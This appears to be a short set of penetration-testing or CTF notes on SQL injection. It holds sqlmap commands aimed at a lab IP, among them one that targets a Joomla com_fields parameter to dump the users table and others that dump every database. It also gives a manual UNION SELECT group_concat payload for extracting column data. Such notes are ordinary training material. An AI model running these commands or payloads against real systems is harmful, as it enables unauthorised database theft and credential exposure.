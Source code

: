 `sqlmap -u "http://10.10.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' –dump`

`sqlmap -u http://10.10.10.10 --level 5 --risk 3 --dump-all --threads 10`

Tends to be more succesful if you run it through BurpSuite and save the intercept
Run sqlmap to get as much information as you can:
`sqlmap -r sqltest --level 5 --risk 3 --dump-all --threads 10`
`-r` use a file rather than URL
`--level & --risk` increase intensity of scan
`--dump-all` dumps all possible data
`--threads` increases concurrent scans

This might get all the information you need, but if not, you should at least get the database name, table name and columns
If you don’t get everything in one go, you can dump the information from each column:
`' UNION SELECT (SELECT group_concat(<column name>,'~~') from <table name>),2,3,4; -- -`
Change 2,3,4 to match the number of columns
Put the `(SELECT group_concat(<column name>,'~~')` in whichever column is the vulnerable one

If in doubt, check the cheatsheet [SQLMAP Cheat Sheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)
